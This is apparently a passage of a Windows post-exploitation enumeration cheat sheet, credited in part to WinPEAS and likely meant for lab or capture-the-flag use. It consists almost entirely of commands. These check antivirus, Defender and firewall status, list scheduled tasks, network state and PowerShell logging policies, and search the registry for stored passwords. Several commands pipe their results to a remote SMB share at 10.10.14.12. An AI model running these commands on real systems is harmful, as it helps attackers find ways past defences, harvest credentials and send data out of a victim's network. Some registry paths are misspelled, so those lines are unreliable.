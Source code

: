 
Needs Administrator to run.
``` 
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct get displayname > \\10.10.14.12\share\av-product
```

```
sc query windefend                                  // Query if Windows Defener is running
sc queryex type=service                             // List all running services containing names of other AV vendors

netsh advfirewall firewall dump                     // Dump firewall details
netsh firewall show state                           // Show firewall status
```

### Scheduled tasks
Verbose, full listing, including task owner.
```
schtasks /query /v /fo list > \\10.10.14.12\share\scheduled-tasks
```

### Networking
```
netstat -ano
netstat -anoq           // If using unprivileged account
netstat -anoqb          // If using privileged account
ipconfig /all
arp -a                  // ARP table
netstat -r >            // Routes
route print
```

### Powershell details
*Credit to WinPEAS.bat*
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Miscrosoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion >> \\10.10.14.12\share\powershell

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Miscrosoft\PowerShell\3\PowerShellEngine" /v PowerShellVersion >> \\10.10.14.12\share\powershell

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" >> \\10.10.14.12\share\powershell

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" >> \\10.10.14.12\share\powershell

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" >> \\10.10.14.12\share\powershell

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
